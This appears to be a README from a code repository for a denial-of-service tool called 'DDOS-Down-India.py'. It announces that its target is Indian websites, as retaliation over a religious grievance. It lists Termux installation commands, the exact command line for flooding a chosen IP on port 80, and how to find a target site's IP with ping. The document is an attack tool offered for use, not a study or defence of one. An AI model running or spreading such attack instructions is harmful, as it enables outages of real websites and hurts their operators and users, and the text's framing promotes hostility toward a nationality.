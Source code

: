 # DDOS
Our Target Indian Site For Respect Our Prophet Nabi Karim Sallallahu Alaihi Wasallam

# Run Or Install DDOS

```
termux-setup-storage
pkg update
pkg upgrade
pkg install git
apt install git
pkg install python
pkg install python2
pkg install python3
apt install dnsutils
python3 -m pip install --upgrade
pkg install pip2
pip2 install requests
pip2 install mechanize
python DDOS-Down-India.py -s (IP) -t 135 -p 80
python3 DDOS-Down-India.py -s (IP) -t 135 -p 80
```
(IP) = Remove () Or Enter Website IP

# How To Find IP?
Open Termux App
Example :
ping www.facebook.com
$Then Enter
Then Show Website IP

# Termux Setup Copy All Or Paste
```
termux-setup-storage
pkg update
pkg upgrade
pkg install git
apt install git
pkg install python
pkg install python2
pkg install python3
python3 -m pip install --upgrade
pkg install pip
pkg install pip2
pip2 install requests
pip2 install mechanize
pkg install ruby
gem install lolcat
pkg install lolcat
pip install lolcat
pip2 install lolcat
pip install bs4
pip install futures
pip2 install mechanize bs4 lolcat
```

